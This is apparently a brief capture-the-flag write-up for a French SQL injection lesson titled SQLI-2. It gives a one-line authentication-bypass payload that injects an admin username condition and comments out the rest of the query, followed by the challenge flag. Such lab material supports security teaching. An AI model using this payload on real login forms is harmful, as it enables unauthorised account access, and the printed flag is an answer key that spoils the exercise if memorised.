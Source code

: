 # SQLI-2

## Description

Apprendre les injections SQL (2/3).

## Solution

') OR username='admin' --

## Flag

FLAG-3510f49d883a12efafc69f8afe3fbc33

